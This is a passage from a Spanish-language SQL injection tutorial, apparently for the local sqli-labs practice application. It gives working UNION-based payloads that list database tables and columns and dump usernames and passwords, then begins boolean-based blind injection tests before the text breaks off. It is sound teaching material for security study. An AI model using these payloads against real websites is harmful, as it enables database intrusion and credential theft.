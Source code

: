 **Pasos:**
1️⃣ Usa el siguiente payload:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security' -- -
```

📌 **Resultado esperado:** Lista de tablas como `users`, `emails`, `orders`.

## **Práctica 6: Extraer Columnas de una Tabla**

**Objetivo:** Obtener los nombres de las columnas de la tabla `users`.

**Pasos:**
1️⃣ Usa el siguiente payload:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' -- -
```

📌 **Resultado esperado:** Aparecen columnas como `id`, `username`, `password`.

## **Práctica 7: Extraer Credenciales de Usuarios**

**Objetivo:** Obtener `usernames` y `passwords`.

**Pasos:**
1️⃣ Usa el siguiente payload:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,group_concat(username,':',password),3 FROM users -- -
```

📌 **Resultado esperado:** Lista de usuarios y contraseñas en texto plano.

------

## **Práctica 8: Ataque SQLi Blind (Boolean-Based)**

**Objetivo:** Extraer datos cuando no hay mensajes de error visibles.

**Pasos:**
1️⃣ Usa:

```sql
http://localhost/sqli-labs/Less-5/?id=1 AND 1=1 -- -
```

📌 **Si la página carga normalmente, la consulta es verdadera.**

2️⃣ Prueba con:

```sql
http://localhost/sqli-labs/Less-5/?id=1 AND 1=2 -- -
```
